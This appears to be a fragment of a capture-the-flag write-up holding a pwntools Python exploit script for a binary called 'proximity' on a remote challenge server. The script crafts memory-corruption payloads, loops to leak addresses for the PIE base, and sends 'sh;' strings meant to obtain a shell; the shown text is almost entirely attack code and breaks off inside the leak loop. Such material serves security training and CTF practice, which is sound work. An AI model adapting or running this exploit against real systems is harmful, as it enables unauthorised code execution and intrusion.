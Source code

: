 ## Exploit Code
```py
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'

e = ELF('./share/proximity')
l = e.libc

s = remote('prob2.cstec.kr', 5555)

gs = '''
set follow-fork-mode parent
set detach-on-fork off
'''

def db(s):
    gdb.attach(s, gdbscript=gs)
    pause()

def read_chunk():
    pay = b"A"*48
    pay += p64(0) # or p64(1) or p64(2)
    pay = pay.ljust(60, b"B")
    pay += b"\x00"
    return pay

def write_chunk(memo = b"A"*6):
    pay = memo
    pay = pay.ljust(48, b"\x00")
    pay += p64(0)
    pay = pay.ljust(60, b"B")
    pay += b"\x01"
    return pay

def delete_chunk(memo = b"A"*6):
    pay = memo
    pay = pay.ljust(48, b"\x00")
    pay += p64(0)
    pay = pay.ljust(60, b"B")
    pay += b"\x02"
    return pay

def enable_fp_flag():
    pay = b"sh;" * 3
    pay = pay.ljust(60, b"\x00")
    pay += b"\x03"

    s.send(pay)

flag = 1
filed_18 = 2

while True:
    ## LEAK \x11\x22\x33\x44\x55\x66 CHUNK FOR PIE BASE. ##
    pay = read_chunk()
    pay = pay.ljust(0xf4c, b'\xFF')
    pay += b"e" + b"\xFF"
    s.send(pay)
    sleep(1)

    leak = s.recvuntil(b'\x11\x22\x33\x44\x55\x66', drop=True)
```